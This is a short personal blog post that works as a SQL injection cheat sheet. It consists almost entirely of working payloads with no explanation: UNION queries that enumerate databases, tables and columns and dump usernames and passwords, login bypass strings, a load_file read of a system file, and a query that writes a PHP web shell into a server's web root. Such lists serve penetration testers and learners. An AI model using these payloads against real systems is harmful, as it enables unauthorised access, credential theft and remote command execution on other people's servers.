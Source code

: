 ```yaml
---
layout: post
title:  "webapp - sql injection"
date:   2022-01-01
categories: web
---
```



## SQLi


```

-1' UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata -- -
-1' UNION ALL SELECT NULL,database() -- -

 Username : admin' or '1'='1'-- -
 Password : blahblah

/dir/1 UNION SELECT username from users--/
/dir/1 UNION SELECT password from users--/
```

## sqli lfi

```sql
1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

## sqli rce

```sql
1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

## authentication bypass


```sql
admin' or 1=1;#
```

```sql
admin' or 1=1 LIMIT 1;#
```

## enumerate database

```
1 order by 1
```

```
1 union all select 1, 2, 3
```

```
1 union all select 1, 2, @@version
```

```
1 union all select 1, 2, user()
```

```
1 union all select 1, 2, table_name from information_schema.tables
```

```
1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

```
1 union all select 1, username, password from users
```

```
1%20union%20all%20select%201,%202,%20%20table_name%20from%20information_schema.tables
```


```
1%20union%20all%20select%20id,username,password%20from%20users;#
```